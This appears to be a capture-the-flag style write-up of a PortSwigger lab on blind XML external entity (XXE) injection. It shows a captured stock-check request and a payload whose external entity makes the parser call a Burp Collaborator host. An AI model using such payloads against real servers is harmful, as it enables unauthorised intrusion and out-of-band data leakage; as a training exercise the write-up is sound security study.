 ```yaml
---
title: Blind XXE with out-of-band interaction
description: PortSwigger XXE Lab
---
```

https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Writeup
Check stock request
```http
POST /product/stock HTTP/2
Host: 0a3500c90401471bd1fc72e3008500f1.web-security-academy.net
Cookie: session=V0EKdKHguXIHlllnhcIDXtWlD2CkWAoV
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3500c90401471bd1fc72e3008500f1.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 112
Origin: https://0a3500c90401471bd1fc72e3008500f1.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>banana</productId><storeId>1</storeId></stockCheck>
```

XML value is not reflected in the response.
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid product ID"
```

Payload for out-of-band xxe

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://gau2yglkb5cd6y4jqxekmb9v1m7ev4jt.oastify.com"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

Request to collaborator
